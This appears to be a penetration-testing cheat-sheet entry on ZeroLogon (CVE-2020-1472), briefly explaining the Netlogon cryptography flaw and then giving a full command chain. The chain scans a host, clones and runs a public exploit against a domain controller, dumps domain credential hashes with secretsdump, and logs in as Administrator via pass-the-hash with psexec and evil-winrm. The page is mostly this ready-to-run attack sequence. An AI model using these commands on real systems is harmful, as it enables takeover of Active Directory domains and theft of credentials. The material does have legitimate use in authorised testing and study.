 # ZeroLogon - CVE-2020-1472

> Zero Logon exploits a feature of **MS-NRPC** (Microsoft NetLogon Remote Protocol), a critical authentication component of Active Directory that handles authentication of user and machine accounts. This attack is made possible by a bad implementation of the cryptography.
>
> * Release Date: Sep, 2020
> * Impact: Elevation of Privilege
> * CVSS score: 10

## Scan | Exploit

```bash
# scan
cme smb $ip -u $user -p $password -M zerologon

# exploit
git clone https://github.com/dirkjanm/CVE-2020-1472.git
cd CVE-2020-1472/
python3 cve-2020-1472-exploit.py $dc_netbios_name $dc_ip

secretsdump.py -just-dc -no-pass $dc_netbios_name\$@$dc_ip
# extract administrator hash

# connect
psexec.py Administrator:@$dc_ip -hashes $hash_admin
evil-winrm -i $dc_ip -u Administrator -H $NTLM_hash
```
